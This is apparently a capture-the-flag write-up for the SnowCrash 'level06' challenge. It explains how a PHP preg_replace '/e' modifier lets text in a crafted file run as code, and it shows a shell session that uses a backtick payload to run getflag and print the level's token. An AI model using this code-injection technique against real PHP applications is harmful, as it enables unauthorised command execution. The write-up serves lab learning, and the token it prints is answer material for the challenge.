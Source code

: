 # Level06

We have a php binary which take a filename as argument and print its content with some modification made based on regex.
But, `/e` is used which allow code execution because it captures the match and evaluate it as php.
So we just have to follow the expected pattern and we can execute code.
The pattern is `[x text]` and in text we will 

```shell
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/level06
level06@SnowCrash:~$ ./level06 /tmp/level06
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```